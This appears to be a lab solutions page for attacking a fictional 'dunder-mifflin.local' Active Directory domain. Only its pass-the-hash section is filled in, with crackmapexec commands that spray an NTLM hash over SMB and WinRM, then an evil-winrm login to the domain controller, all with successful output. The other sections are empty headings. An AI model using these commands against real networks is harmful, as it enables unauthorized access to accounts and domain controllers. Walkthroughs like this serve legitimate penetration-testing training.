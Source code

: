 # Linux Solutions
## Pass the Hash
Enumerate smb to see what user has this hash:
```
crackmapexec smb 192.168.21.174 -u users.txt -H 9480f234e713cf0dd846f5b006c5ea6e 
SMB         192.168.21.174  445    SCRANTON-DC      [*] Windows 10.0 Build 20348 x64 (name:SCRANTON-DC) (domain:dunder-mifflin.local) (signing:True) (SMBv1:False)
SMB         192.168.21.174  445    SCRANTON-DC      [-] dunder-mifflin.local\k.malone:9480f234e713cf0dd846f5b006c5ea6e STATUS_LOGON_FAILURE 
SMB         192.168.21.174  445    SCRANTON-DC      [+] dunder-mifflin.local\d.schrute:9480f234e713cf0dd846f5b006c5ea6e
```

Check to see if this user has winrm access.
```
crackmapexec winrm 192.168.21.174 -u d.schrute -H 9480f234e713cf0dd846f5b006c5ea6e 
SMB         192.168.21.174  5986   SCRANTON-DC      [*] Windows 10.0 Build 20348 (name:SCRANTON-DC) (domain:dunder-mifflin.local)
HTTP        192.168.21.174  5986   SCRANTON-DC      [*] https://192.168.21.174:5986/wsman
WINRM       192.168.21.174  5986   SCRANTON-DC      [+] dunder-mifflin.local\d.schrute:9480f234e713cf0dd846f5b006c5ea6e (Pwn3d!)
```

Authenticate with winrm:
```
evil-winrm -i 192.168.21.174 -u d.schrute -H 9480f234e713cf0dd846f5b006c5ea6e

*Evil-WinRM* PS C:\Users\d.schrute\Documents> whoami
dunder-mifflin\d.schrute
*Evil-WinRM* PS C:\Users\d.schrute\Documents> hostname
scranton-dc
```

## ASREProasting
## Kerberoasting

# Windows solutions
## Pass the Hash
## ASREProasting
## Kerberoasting
